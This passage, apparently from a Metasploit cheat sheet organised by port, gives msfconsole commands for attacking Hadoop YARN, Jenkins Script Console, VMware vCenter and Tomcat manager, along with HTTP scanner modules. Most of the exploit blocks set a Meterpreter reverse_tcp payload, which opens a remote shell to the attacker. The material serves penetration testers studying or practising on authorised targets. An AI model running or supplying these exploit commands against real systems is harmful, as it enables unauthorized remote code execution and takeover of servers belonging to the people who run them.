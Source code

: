 ### Exploit: Hadoop YARN ResourceManager
```bash
use exploit/linux/http/hadoop_unauth_exec
set RHOST [IP]
set RPORT 8088
set PAYLOAD java/meterpreter/reverse_tcp
```
**Purpose**: Exploits unauthorized access to Hadoop YARN ResourceManager.

---

## Port 8080 - HTTP Alternate
**Service**: HTTP Alternate  
**Common services**: Tomcat, Jenkins, various web applications

### Auxiliary: HTTP Service Identification
```bash
use auxiliary/scanner/http/http_version
set RHOSTS [IP]
set RPORT 8080
```
**Purpose**: Identifies services running on alternate HTTP port.

### Exploit: Jenkins Script Console
```bash
use exploit/multi/http/jenkins_script_console
set RHOST [IP]
set RPORT 8080
set TARGETURI /jenkins
set PAYLOAD java/meterpreter/reverse_tcp
```
**Purpose**: Executes Groovy code in Jenkins Script Console for RCE.

---

## Port 8181, 8282, 8383, 8484, 8585, 8686 - Various HTTP Services
**Service**: Various HTTP Management Consoles  
**Common services**: GlassFish (8181), Apache Synapse (8282), VMware (8383), JBoss (8484), etc.

### General Approach for HTTP Management Ports:
```bash
use auxiliary/scanner/http/http_version
set RHOSTS [IP]
set RPORTS 8181,8282,8383,8484,8585,8686
```

### Specific Exploit Examples:
```bash
# For VMware vCenter (8383)
use exploit/multi/http/vmware_vcenter_analytics_upload_ova
set RHOST [IP]
set RPORT 8383
set PAYLOAD linux/x64/meterpreter/reverse_tcp

# For Apache Tomcat (8181 often used)
use exploit/multi/http/tomcat_mgr_upload
set RHOST [IP]
set RPORT 8181
set HttpUsername [user]
set HttpPassword [password]
```

---